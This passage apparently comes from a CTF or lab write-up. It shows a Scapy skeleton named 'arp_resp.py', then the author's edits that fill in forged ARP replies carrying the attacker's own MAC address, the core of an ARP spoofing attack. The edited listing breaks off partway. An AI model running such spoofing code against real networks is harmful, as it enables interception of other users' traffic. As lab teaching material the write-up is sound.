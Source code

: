 Taking a look at the `arp_resp.py` script, we see the following:
```
#!/usr/bin/python3
from scapy.all import *
import netifaces as ni
import uuid

# Our eth0 ip
ipaddr = ni.ifaddresses('eth0')[ni.AF_INET][0]['addr']
# Our eth0 mac address
macaddr = ':'.join(['{:02x}'.format((uuid.getnode() >> i) & 0xff) for i in range(0,8*6,8)][::-1])

def handle_arp_packets(packet):
    # if arp request, then we need to fill this out to send back our mac as the response
    if ARP in packet and packet[ARP].op == 1:
        ether_resp = Ether(dst="SOMEMACHERE", type=0x806, src="SOMEMACHERE")

        arp_response = ARP(pdst="SOMEMACHERE")
        arp_response.op = 99999
        arp_response.plen = 99999
        arp_response.hwlen = 99999
        arp_response.ptype = 99999
        arp_response.hwtype = 99999

        arp_response.hwsrc = "SOMEVALUEHERE"
        arp_response.psrc = "SOMEVALUEHERE"
        arp_response.hwdst = "SOMEVALUEHERE"
        arp_response.pdst = "SOMEVALUEHERE"

        response = ether_resp/arp_response

        sendp(response, iface="eth0")

def main():
    # We only want arp requests
    berkeley_packet_filter = "(arp[6:2] = 1)"
    # sniffing for one packet that will be sent to a function, while storing none
    sniff(filter=berkeley_packet_filter, prn=handle_arp_packets, store=0, count=1)

if __name__ == "__main__":
    main()
```

Useful as a starting point, but I'll need to make some edits to make it useful.

```
#!/usr/bin/python3
from scapy.all import *
import netifaces as ni
import uuid

# Our eth0 ip
ipaddr = ni.ifaddresses('eth0')[ni.AF_INET][0]['addr']
# Our eth0 mac address
macaddr = ':'.join(['{:02x}'.format((uuid.getnode() >> i) & 0xff) for i in range(0,8*6,8)][::-1])

def handle_arp_packets(packet):
    # if arp request, then we need to fill this out to send back our mac as the response
    if ARP in packet and packet[ARP].op == 1:
        ether_resp = Ether(dst=packet[Ether].src, type=0x806, src=macaddr)

        arp_response = ARP(pdst=packet[ARP].psrc)
        arp_response.op = 2

        arp_response.hwsrc = macaddr
```